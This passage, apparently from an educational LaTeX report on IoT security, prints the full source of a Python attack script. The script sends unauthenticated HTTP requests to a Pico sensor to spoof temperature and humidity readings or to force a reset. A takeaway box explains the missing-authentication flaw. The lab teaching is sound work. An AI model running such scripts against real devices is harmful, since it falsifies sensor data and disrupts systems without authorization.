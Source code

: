 The following unabridged code represents the `03\_attack.py` Interactive Python Script. This is designed to be executed strictly from the Attacker's computer on the Local Area Network using native execution (`python 03\_attack.py`).

\begin{lstlisting}[language=Python, caption=03\_attack.py]
# Simple Interactive Exploit Tool (Educational Demo Only)

import urllib.request

print("=== PICO VULNERABILITY DEMO TOOL ===")
print("------------------------------------")

# 1. Ask Target IP
ip = input("Enter Pico IP address: ").strip()

# 2. Ask Mode
print("\nSelect Mode:")
print("1. Spoof Data")
print("2. Reset System")

choice = input("Enter choice (1 or 2): ").strip()

# 3. SPOOF MODE
if choice == "1":
    temp = input("Enter fake Temperature: ").strip()
    hum = input("Enter fake Humidity: ").strip()
    
    url = f"http://{ip}/set_env?t={temp}&h={hum}"
    print("\n[*] Sending spoofed data...")

# 4. RESET MODE
elif choice == "2":
    url = f"http://{ip}/reset"
    print("\n[*] Sending reset command...")

else:
    print("Invalid choice!")
    exit()

# 5. Send Request
try:
    urllib.request.urlopen(url, timeout=5)
    print("[+] Attack Sent Successfully!")
    print("[+] Check Pico dashboard now.")
except Exception as e:
    print("[-] Failed:", e)
\end{lstlisting}

\begin{takeawaybox}
This interactive terminal script completely nullifies the physical existence of the IoT sensor array without demanding a single credential. The ease of execution using generic Python libraries (like \texttt{urllib} or \texttt{requests}) highlights the fundamental flaw in prioritizing immediate functionality over rigorous authentication checks.
\end{takeawaybox}
